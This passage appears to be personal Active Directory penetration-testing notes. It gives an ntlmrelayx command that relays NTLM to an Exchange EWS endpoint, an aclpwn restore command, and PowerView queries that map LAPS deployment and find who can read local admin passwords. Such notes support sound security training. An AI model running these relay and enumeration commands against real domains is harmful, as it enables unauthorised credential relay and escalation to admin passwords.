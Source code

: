 ````
- Really vague described in the INE slides. Never tried it either!
```
sudo python3 ntlmrelayx.py -t https://<EXCH HOST>/EWS/Exchange.asmx
```

#### Restore ACL's with aclpwn.py
- NTLMRelayx performs acl attacks a restore file is sived that can be used to restore the ACL's

```
python3 aclpwn.py --restore aclpwn.restore
```

## LAPS
- On a computer, if LAPS is in use, a library AdmPwd.dll can be found in the C:\Program Files\LAPS\CSE directory.
- Another great tool to use: https://github.com/leoloobeek/LAPSToolkit

#### Check if LAPS is installed on local computer
```
Get-Childitem 'C:\Program Files\LAPS\CSE\AdmPwd.dll'
Test-Path HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\GPExtensions #DOESNT WORK? GOTTA CHECK ECPPTX MATERIAL AGAIN
```

### Check existence of LAPS in the domain
#### Check for existence of the ms-mcs-admpwd attribute
```
Get-AdObject 'CN=ms-mcs-admpwd,CN=Schema,CN=Configuration,DC=<DOMAIN>,DC=<DOMAIN>'
```

#### Check for computers with LAPS installed
```
Get-DomainComputer | Where-object -property ms-Mcs-AdmPwdExpirationTime | select-object samaccountname
```

#### Check for GPO's with LAPS in its name
```
Get-DomainGPO -Identity *LAPS*
```

#### Check for OU's with LAPS
```
Get-DomainOU -FullData | Get-ObjectAcl -ResolveGUIDs | Where-Object { ($_.ObjectType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty') } | ForEach-Object { $_ | Add-Member NoteProperty 'IdentitySID' $(Convert-NameToSid $_.IdentityReference).SID; $_ }
```

#### Check which computers is part of the OU
```
Get-DomainOU -OUName <NAME> | %{Get-DomainComputer -ADSpath $_}
```

#### Check to which computers the LAPS GPO is applied to
```
Get-DomainOU -GPLink "<Distinguishedname from GET-DOMAINGPO>" | select name, distinguishedname
Get-DomainComputer -Searchbase "LDAP://<distinguishedname>" -Properties Distinguishedname
```

#### Check all computers without LAPS
```
Get-DomainComputer | Where-object -property ms-Mcs-AdmPwdExpirationTime -like $null | select-object samaccountname
```

#### Check the LAPS configuration
- https://github.com/PowerShell/GPRegistryPolicy
````